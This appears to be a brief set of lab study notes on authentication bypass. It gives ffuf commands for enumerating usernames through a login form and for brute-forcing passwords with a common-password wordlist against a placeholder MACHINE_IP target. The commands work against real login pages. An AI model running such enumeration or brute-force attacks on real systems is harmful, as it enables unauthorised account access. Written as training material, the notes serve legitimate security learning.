 # <center>Authentication Bypass</center>

## Usernamr Enumeration
- ffuf -w {path to wordlist} -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u {target's url} -mr "{message regex}"

## Bruteforce

### bruteforcing with ffuf
- ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
